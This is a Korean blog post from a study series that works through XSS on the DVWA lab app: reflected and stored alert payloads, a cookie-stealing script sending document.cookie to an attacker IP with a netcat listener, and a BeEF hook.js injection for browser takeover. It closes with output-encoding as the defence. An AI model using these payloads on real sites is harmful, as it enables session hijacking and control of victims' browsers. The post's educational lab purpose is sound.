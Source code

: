 ```yaml
---
layout: post
title: "XSS (Cross-Site Scripting) 공부"
date: 2025-09-15 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 취약점 존재 증명이나 세션 쿠키 탈취 등 다양한 목적으로 사용될 수 있다.

---

### 2. 기본 유형 및 실습

#### **Reflected XSS (반사형)**
공격 스크립트가 URL 파라미터 등을 통해 서버로 전달된 후, 서버가 그 값을 응답 페이지에 그대로 포함하여 사용자에게 돌려줄 때 발생한다.

*   **DVWA 실습:**
    `XSS (Reflected)` 페이지에서 `name` 파라미터 값으로 `<script>alert('Reflected XSS')</script>`를 주입하면 서버 응답에 이 스크립트가 포함되어 경고창이 실행된다.

   ![XssReflected](/assets/images/Xss_1.png)

#### **Stored XSS (저장형)**
공격 스크립트가 게시판이나 방명록처럼 서버의 데이터베이스에 영구적으로 저장될 때 발생한다. 해당 페이지를 방문하는 모든 사용자가 공격의 영향을 받는다.

*   **DVWA 실습:**
    `XSS (Stored)` 페이지의 방명록에 `<script>alert('Stored XSS')</script>`를 포함한 메시지를 남기면 해당 스크립트가 데이터베이스에 저장된다. 이후 이 페이지를 방문하는 모든 사용자의 브라우저에서 경고창이 실행된다.

   ![XssStored](/assets/images/Xss_2.png)

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

#### **1. 공격자 리스너**
탈취한 쿠키를 수신하기 위해 공격자 PC에 서버가 필요하다. [보안 분석을 위한 리눅스 명령어 공부](https://hamap0.github.io/study/시스템-해킹/2025/09/14/보안-분석을-위한-리눅스-명령어-공부.html)에서 다룬 `netcat`을 이용해 특정 포트에서 연결을 대기하는 리스너를 실행할 수 있다.
```bash
# 80번 포트에서 연결을 대기하며 상세 정보를 출력
sudo nc -lvnp 80
```

#### **2. 쿠키 탈취 페이로드**
피해자의 브라우저에서 `document.cookie` 값을 읽어와 공격자 서버 `192.9.200.12`로 전송하는 스크립트이다.
```javascript
<script>
  document.location='http://192.9.200.12/?cookie=' + btoa(document.cookie);
</script>
```
*   `btoa()`: 쿠키 값에 포함될 수 있는 특수문자로 인해 URL이 깨지는 것을 방지하기 위해 Base64로 인코딩한다.

#### **3. 결과 확인**
이 페이로드를 Stored XSS 취약점이 있는 방명록에 삽입하면 해당 페이지를 방문하는 사용자의 브라우저는 스크립트를 실행한다. 그 결과 공격자의 `netcat` 리스너에는 피해자의 쿠키 값이 포함된 HTTP GET 요청이 수신된다.

   ![XssCookie](/assets/images/Xss_3.png)

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

#### **1. BeEF 실행 및 Hook URL 확인**
1.  공격자 PC에서 BeEF 프레임워크를 실행한다.
    ```bash
    sudo beef-xss
    ```
2.  BeEF의 관리자 페이지(UI)에 접속하여 로그인한다.
3.  관리자 페이지에 표시된 **Hook URL** (예: `<script src="http://192.9.200.12:3000/hook.js"></script>`)을 복사한다. 이 스크립트가 피해자의 브라우저를 제어하는 핵심 코드이다.

#### **2. Hook 스크립트 주입**
1.  복사한 Hook URL 스크립트 전체를 Stored XSS 취약점이 있는 DVWA 방명록에 삽입하고 게시글을 등록한다.

#### **3. 브라우저 Hooking 및 제어**
1.  피해자가 해당 방명록 페이지를 방문하면 브라우저는 자신도 모르게 **`hook.js`** 스크립트를 실행하고 공격자의 BeEF 서버에 연결된다.
2.  공격자는 BeEF 관리자 페이지의 `Online Browsers` 목록에서 연결된 피해자의 브라우저(Hooked Browser)를 확인할 수 있다.
   ![XssBeef](/assets/images/Xss_4.png)
3.  공격자는 `Commands` 탭의 다양한 모듈을 사용하여 피해자 브라우저를 대상으로 추가 공격을 수행할 수 있다.
    *   **Get Cookies**: 피해자의 쿠키 정보를 가져온다.
    *   **Redirect Browser**: 피해자의 브라우저를 특정 피싱 사이트로 강제 이동시킨다.
    *   **Create Alert Dialog**: 피해자의 화면에 임의의 경고창을 띄운다.

---

### 5. 방어 방안: 출력 인코딩

XSS 공격의 근본적인 원인은 사용자가 입력한 데이터를 서버가 그대로 HTML의 일부로 해석하여 출력하기 때문이다. 이를 막는 가장 효과적인 방법은 **출력 인코딩(Output Encoding)**이다.

사용자가 입력한 문자열에 포함된 `<`, `>` 같은 특수문자를 브라우저가 HTML 태그로 해석하지 못하도록 아래와 같이 안전한 문자(HTML Entities)로 변환하여 출력해야 한다.
*   `<` → `&lt;`
*   `>` → `&gt;`

이렇게 인코딩된 문자열은 브라우저 화면에는 원래의 꺾쇠 기호로 보이지만 HTML 파서는 이를 태그의 시작과 끝이 아닌 단순한 텍스트로만 인식하므로 스크립트가 실행되지 않는다.

<hr class="short-rule">
